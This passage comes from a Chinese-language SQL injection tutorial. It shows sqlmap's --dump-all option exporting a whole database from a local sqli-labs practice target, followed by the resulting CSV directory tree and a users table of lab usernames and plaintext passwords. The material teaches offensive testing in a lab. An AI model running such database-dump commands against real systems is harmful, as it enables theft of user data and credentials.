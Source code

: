 ![Drawing 15.png](https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y71GANTBrAAFu3OCaUR4397.png)

图 16：使用 --dump 参数批量获取字段值

**（6）使用 --dump-all 参数导出整个数据库**。

这个方法耗时较长，还有很多无价值信息，但却是最简单的拖库姿势，示例命令如下：

```
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dump-all
```

上述方法导出的数据文件存放路径会在命令行给出，数据以 csv 文件形式保存到本地：

```
Ubuntu# pwd
/root/.local/share/sqlmap/output/localhost/dump
Ubuntu# tree
.
├── challenges
│   └── 6EAED22Z6T.csv
├── information_schema
│   ├── CHARACTER_SETS.csv
│   ├── COLLATION_CHARACTER_SET_APPLICABILITY.csv
│   ├── COLLATIONS.csv
│   ├── COLUMN_PRIVILEGES.csv
│   ├── COLUMNS.csv
│   ├── ......
│   ├── SCHEMATA.csv
│   ├── SESSION_STATUS.csv
│   ├── SESSION_VARIABLES.csv
│   ├── STATISTICS.csv
│   ├── USER_PRIVILEGES.csv
│   └── VIEWS.csv
├── mysql
│   ├── help_category.csv
│   ├── help_keyword.csv
│   ├── help_relation.csv
│   ├── help_topic.csv
│   ├── proxies_priv.csv
│   ├── servers.csv
│   └── user.csv
├── performance_schema
│   ├── cond_instances.csv
│   ├── ......
│   └── threads.csv
└── security
    ├── emails.csv
    ├── referers.csv
    ├── uagents.csv
    ├── users.csv
    └── users.csv.1
5 directories, 70 files
Ubuntu# cat /root/.local/share/sqlmap/output/localhost/dump/security/users.csv
id,username,password
1,Dumb,Dumb
2,Angelina,I-kill-you
3,Dummy,p@ssword
4,secure,crappy
5,stupid,stupidity
6,superman,genious
7,batman,mob!le
8,admin,admin
9,admin1,admin1
10,admin2,admin2
11,admin3,admin3
```